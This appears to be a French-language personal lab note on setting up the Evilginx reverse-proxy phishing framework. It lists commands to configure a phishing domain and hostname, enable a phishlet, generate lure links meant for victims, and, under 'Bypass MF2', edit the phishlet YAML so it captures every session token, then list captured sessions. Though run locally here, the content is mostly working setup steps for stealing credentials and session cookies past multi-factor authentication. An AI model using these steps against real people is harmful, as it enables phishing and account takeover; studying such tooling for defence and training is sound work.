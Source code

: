 Une fois notre Phishlet créer : 

![[Pasted image 20250626120652.png]]

# Basic Configuration

Définir le domaine de base pour tous les phishlets (par exemple evilsite.com)

```cs
config domain evilsite.com
```

Définir l'adresse externe IPv4 du serveur actuel (généralement c'est celui du VPS ou `evilginx` est héberger)

```cs
config ipv4 127.0.0.1
```

Définir le nom d'hôte pour un phishlet (par exemple, this.is.not.a.phishing.site.evilsite.com) et ce nom d'hôte doit toujours se terminer par le domaine configurer (evilsite.com)

```cs
phishlets hostname akira lab.evilginx.evilsite.com
```

![[Pasted image 20250626122557.png]]

Activer le phishlet cela demande une configuration SSL/TLS (disponible dans `C:\Users\Dipeua\.evilginx\crt\ca.crt`)

```cs
phishlets enable akira
```

![[Pasted image 20250626123015.png]]

Génère des entrées pour le fichier hosts afin d'utiliser localhost pour les tests (Uniquement en local)

```cs
phishlets get-hosts akira
```

Crée un nouveau leurre pour le phishlet donné (c'est le lien qui sera envoyer a la victime)

```cs
lures create akira
lures get-url 0
```

![[Pasted image 20250626123904.png]]

# Bypass MF2

Modifier le fichier `phishlets/example.yaml` et ajouter `always` a la suite de chaque `key` que nous voulons récupérer pour que Evilginx prend TOUTES les donnes

```yaml
auth_tokens:
  - domain: 'akira.lab.evilginx.com'
    keys: ['token:always'] # :always
```

Afficher les informations d'une sessions

```cs
sessions
sessions <id>
```